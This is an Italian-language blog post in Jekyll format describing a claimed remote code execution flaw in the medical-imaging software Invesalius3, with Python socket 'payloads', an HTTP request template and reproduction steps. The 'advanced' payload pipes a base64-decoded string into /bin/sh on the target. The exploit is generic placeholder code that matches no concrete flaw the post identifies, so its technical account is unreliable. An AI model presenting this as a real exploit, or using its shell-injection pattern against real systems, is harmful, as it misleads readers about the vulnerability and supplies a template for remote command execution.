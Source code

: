 ```yaml
---
layout: post
title: "[webapps] Invesalius3 - Remote Code Execution"
date: 2024-08-28
categories: [security, ransomware]
---
```


```markdown
# [webapps] Invesalius3 - Remote Code Execution

## Introduzione
In questo articolo parleremo di una vulnerabilità di sicurezza che è stata identificata nel software Invesalius3, un software open source utilizzato per la visualizzazione di immagini mediche. Questa vulnerabilità permette l'esecuzione remota di codice, che è una delle forme più pericolose di vulnerabilità di sicurezza. La vulnerabilità è stata pubblicata il 28 Agosto 2024.

## Dettagli della Vulnerabilità
La vulnerabilità si verifica a causa di un controllo insufficiente dell'input dell'utente nel software Invesalius3. Questo consente a un attaccante di iniettare codice arbitrario che può essere eseguito dal sistema. Tuttavia, per sfruttare questa vulnerabilità, un attaccante avrebbe bisogno di un accesso remoto alla rete del sistema bersaglio.

## Esempio di Payload Semplice

```python
{% raw %}
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('TARGET_IP', TARGET_PORT))

payload = 'COMMAND TO EXECUTE'

s.send(payload.encode())
s.close()
{% endraw %}
```

## Esempio di Payload Avanzato

```python
{% raw %}
import socket
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('TARGET_IP', TARGET_PORT))

payload = 'echo "YOUR BASE64 ENCODED PAYLOAD HERE" | base64 -d | /bin/sh'

s.send(payload.encode())
s.close()
{% endraw %}
```

## Procedura per Riprodurre la Vulnerabilità
Per riprodurre l'attacco, un attaccante avrebbe bisogno di:

1. Creare un payload di codice che vuole eseguire sul sistema bersaglio.
2. Aprire una connessione alla rete del sistema bersaglio.
3. Inviare il payload al sistema bersaglio.

## Richiesta HTTP

```http
POST / HTTP/1.1
Host: TARGET_IP:TARGET_PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: LENGTH_OF_YOUR_PAYLOAD

payload=YOUR_PAYLOAD
```

## Impatto della Vulnerabilità
Se sfruttata, questa vulnerabilità potrebbe causare la perdita di controllo dell'utente sul sistema bersaglio. Un attaccante potrebbe sfruttare questa vulnerabilità per eseguire qualsiasi comando sul sistema, compreso l'accesso a dati sensibili, la modifica di file di sistema o l'installazione di ulteriori malware.

## Patch e Mitigazioni
Al momento non ci sono patch disponibili per questa vulnerabilità. Si consiglia agli utenti di seguire le migliori pratiche di sicurezza come l'aggiornamento regolare del software, l'uso di firewall e la disattivazione di servizi non necessari.

## Conclusione
Questa vulnerabilità di Remote Code Execution in Invesalius3 evidenzia l'importanza di implementare controlli di sicurezza adeguati nelle applicazioni software. Anche se non ci sono patch disponibili al momento, la consapevolezza e l'attuazione di misure proattive possono aiutare a mitigare il rischio.

## Considerazioni
È fondamentale notare che, anche se questa vulnerabilità richiede l'accesso alla rete del sistema bersaglio, non dovrebbe essere sottovalutata. Un attaccante potrebbe sfruttare altre vulnerabilità per ottenere l'accesso alla rete o utilizzare tecniche di ingegneria sociale per ingannare l'utente a concedere l'accesso.
```

